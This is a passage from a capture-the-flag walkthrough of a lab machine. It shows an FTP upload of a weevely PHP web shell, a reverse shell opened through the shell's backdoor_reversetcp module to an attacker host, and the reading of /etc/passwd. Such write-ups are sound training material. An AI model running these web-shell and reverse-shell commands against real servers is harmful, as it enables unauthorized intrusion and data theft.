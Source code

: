 ```
drwxr-xr-x    4 0        0            4096 May 26 18:52 scss
-rwxr-xr-x    1 0        0           26523 May 26 19:58 team.php
drwxr-xr-x    8 0        0            4096 May 26 18:52 vendor
226 Directory send OK.
```

Before uploadign a PHP web shell, let's craft one:

```
$ weevely generate noraj agent.php
Generated 'agent.php' with password 'noraj' of 744 byte size.
```

Then let's uplaod it:

```
ftp> cd dev
250 Directory successfully changed.
ftp> put agent.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
744 bytes sent in 6.3e-05 seconds (11.3 Mbytes/s)
```

Then let's connect to our webshell and use the `backdoor_reversetcp` module
to get a reverse shell because the webshell is quickly removed from the server:

```
$ weevely http://dev.sneakycorp.htb/agent.php noraj

[+] weevely 4.0.1

[+] Target:     www-data@sneakymailer:/var/www/dev.sneakycorp.htb/dev
[+] Session:    /home/noraj/.weevely/sessions/dev.sneakycorp.htb/agent_0.session
[+] Shell:      System shell

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> :backdoor_reversetcp 10.10.14.174 8080
Reverse shell connected, insert commands. Append semi-colon help to get the commands accepted.
/bin/sh: 0: can't access tty; job control turned off
$ id;
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation of Machine : from www-data to developer

```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```